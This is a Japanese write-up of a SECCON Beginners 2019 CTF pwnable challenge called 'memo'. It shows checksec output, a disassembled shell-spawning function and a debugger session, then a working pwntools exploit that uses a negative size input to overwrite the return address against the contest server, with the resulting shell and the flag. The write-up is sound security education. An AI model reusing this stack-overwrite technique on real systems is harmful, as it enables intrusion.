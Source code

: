 # はじめに
2019年5月25日〜26日、Szarnyさんと一緒SECCONのCTF For Beginners (ctf4b)に参加し、最後に二人のチームが2707ポイントを集め、666チームが参加する中26位で終わりました。

今回、解けた問題「memo」の解法を紹介していきます。
# memo
いつもどおりにセキュリティ機構の有無を確認します。
```
$ checksec memo
[*] '/ctf/SECCON2019-ctf4b/take2/Pwnable/memo/memo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`radare2`で解析を始めましょう。関数一覧を出したら、謎の関数がありました。
```
/ (fcn) sym.hidden 26
|   sym.hidden ();
|           0x004007bd      55             push rbp
|           0x004007be      4889e5         mov rbp, rsp
|           0x004007c1      488d3dce0000.  lea rdi, [0x00400896]
|           0x004007c8      e8c3fdffff     call sym.imp.system
|           0x004007cd      bf00000000     mov edi, 0
\           0x004007d2      e8f9fdffff     call sym.imp.exit
```
簡単に言うと`system("/bin/sh"); exit(0);`とする関数ですね。というわけでこれを実行すれば勝ち。

メインプログラムの動作を言葉でまとめますが、実行すると入力サイズを求め、`0x1f`(31)であることをチェックします。合格の場合、サイズがラウンディングされ、その結果を`rsp`から引き、最後の結果を読み込み先として`fgets`を呼び出します。一応に適当なサイズを与えて、`rsp`以下なら任意書き込みができますが、もし負数を与えるとしたら、`rsp`から引かれて、`rsp`以上のアドレスも書き込むことが可能になります！

gdbでプログラムを実行し、引き算の前にブレークポイントを入れて`rsp`の値を確認しましょう。
```
pwndbg> b *0x000000000040075f
Breakpoint 1 at 0x40075f
pwndbg> r
Starting program: /ctf/SECCON2019-ctf4b/take2/Pwnable/memo/memo 
Input size : -1

Breakpoint 1, 0x000000000040075f in main ()
...
 RBP  0x7fffffffe440 —▸ 0x4007e0 (__libc_csu_init) ◂— push   r15
 RSP  0x7fffffffe3f0 ◂— 0xa312d /* '-1\n' */
...
pwndbg> p $rbp-$rsp
$1 = 80
```
ラウンディング数式が自分にはちょっとわかりにくいけど、とにかく`-0x60`(-96)の値を渡すと`$rax`が`-80`になり、更に`$rsp`から引くと`$rsp == $rbp`となる。すなわち、サイズを`-96`に指定すれば、fgetsの読み込み先がスタックの`$rbp`に移動され、8バイト後リターンポインタを上書きすることが出来ます。
```
#!/usr/bin/env python2
from pwn import *

SERVER = True
if SERVER:
        p = remote("133.242.68.223", 35285)
else:
        p = process("./memo")

p.sendlineafter(": ", "-96")                       # -0x60
p.sendlineafter(": ", p64(0x0) + p64(0x004007c1))  # @sym.hidden + 0x4

p.interactive()

p.close()
```
```
$ ./exploit.py 
[+] Opening connection to 133.242.68.223 on port 35285: Done
[*] Switching to interactive mode
Your Content : 1�I��^H\x89�H���PTI��@
$ cat flag.txt
ctf4b{h4ckn3y3d_574ck_b0f}
$  
```

以上 memo の解法でした。読んで頂き、ありがとうございました！